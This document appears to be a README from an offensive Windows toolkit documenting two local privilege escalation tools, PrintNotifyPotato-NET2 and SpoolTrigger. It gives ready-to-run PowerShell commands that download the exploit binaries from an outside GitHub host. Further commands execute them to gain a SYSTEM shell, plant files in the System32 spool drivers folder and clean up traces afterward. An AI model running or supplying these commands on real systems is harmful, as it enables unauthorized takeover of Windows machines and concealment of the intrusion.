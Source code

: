 ## PrintNotifyPotato-NET2.exe

|Function name|Description|Privileges|Screenshot|
|---|---|---|---|
|PrintNotifyPotato-NET2|Local privilege escalation|Administrator|[PrintNotifyPotato](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/LPE/LPE.png)|

<br />

**downloadcmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/LPE/PrintNotifyPotato-NET2.exe" -OutFile "PrintNotifyPotato-NET2.exe"
```

<br />

**execute:**
```powershell
.\PrintNotifyPotato-NET2.exe whoami
.\PrintNotifyPotato-NET2.exe cmd interactive
```

<br />

## SpoolTrigger.ps1

|Function name|Description|Privileges|Screenshot|Credits|
|---|---|---|---|---|
|SpoolTrigger|Local privilege escalation|Administrator|[SpoolTrigger](https://user-images.githubusercontent.com/23490060/222120179-ae2e2b14-fe3e-453e-a494-dcf1c84dd270.jpg)|@404death|

<br />

<b><i>pre-requesites checks:</i></b>
```powershell
#Make sure PrintNotify service exists
[bool](get-service -name "PrintNotify")

#Make sure System32\spool\drivers\x64\3 exists
[bool](Test-Path -Path "$Env:WINDIR\System32\spool\drivers\x64\3\")

#Make sure we have administrator privileges in shell
[bool](([System.Security.Principal.WindowsIdentity]::GetCurrent()).groups -Match "S-1-5-32-544")
```

<br />

**downloadcmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/LPE/bin.zip" -OutFile "$Env:TMP\bin.zip"
```

<br />

**execute:**
> **Warning**: Administrator privileges required to perform actions.
```powershell
# Expand ZIP archive
Expand-Archive -Path "$Env:TMP\bin.Zip" -DestinationPath "$Env:TMP" -force
cd "$Env:TMP\bin"

# Move files to comrrespondent directory
Move-Item -Path "*" -Destination "$Env:WINDIR\System32\spool\drivers\x64\3\" -Force
cd "$Env:WINDIR\System32\spool\drivers\x64\3\bin"
.\SpoolTrigger.ps1
whoami

# CleanUp
Stop-Service -Name "PrintNotify" -Force
Remove-Item -Path "$Env:TMP\bin" -Force
Remove-Item -Path "$Env:TMP\bin.zip" -Force
Remove-Item -Path "$Env:WINDIR\System32\spool\drivers\x64\3\bin" -Force
```
